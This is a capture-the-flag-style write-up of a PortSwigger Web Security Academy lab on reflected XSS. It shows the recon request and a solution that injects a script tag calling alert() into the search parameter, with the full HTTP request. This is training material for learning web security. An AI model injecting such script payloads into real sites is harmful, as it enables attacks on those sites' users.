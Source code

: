 * Reflected XSS into HTML context with nothing encoded

* TABLE OF CONTENTS :toc:
- [[#reflected-xss-into-html-context-with-nothing-encoded][Reflected XSS into HTML context with nothing encoded]]
  - [[#description][Description]]
  - [[#recon][Recon]]
  - [[#solution][Solution]]

** Description
#+begin_quote
This lab contains a simple reflected cross site scripting or XSS vulnerability in the ~search~ functionality
#+end_quote

#+begin_quote
To solve the lab, perform a XSS attack that calls the ~alert~ function
#+end_quote

** Recon
Access the lab and browse the application
+ Test the search functionality of the application. How it works normally
  Input a search term in the search box like ~bells~ and submit to query
*** Request
  #+begin_src request
  GET /?search=bells HTTP/2
  Host: 0a32001d03b7ceeac1795d0c00130080.web-security-academy.net
  Cookie: session=9Tp4tvzKzoZgjf6TiTDKGzULMfJDxuUj
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Dnt: 1
  Referer: https://0a32001d03b7ceeac1795d0c00130080.web-security-academy.net/
  Upgrade-Insecure-Requests: 1
  Sec-Fetch-Dest: document
  Sec-Fetch-Mode: navigate
  Sec-Fetch-Site: same-origin
  Sec-Fetch-User: ?1
  Te: trailers
  #+end_src

*** Response
#+begin_src response
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3467
#+end_src

** Solution
Since we know the search input field is accepting any user input without filtering the user input, attacker can craft a vulnerability code to execute through this functionality
+ Now we can craft a js code along with search term
  #+begin_src js
<script>alert("Hello World")</script>
  #+end_src

+ Request
  #+begin_src
GET /?search=bells<script>alert("Hello+World")<%2Fscript> HTTP/2
Host: 0a32001d03b7ceeac1795d0c00130080.web-security-academy.net
Cookie: session=9Tp4tvzKzoZgjf6TiTDKGzULMfJDxuUj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://0a32001d03b7ceeac1795d0c00130080.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
  #+end_src
+ Response
  #+begin_src
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4886
  #+end_src

*** Result
[[./lab01-1.png]]
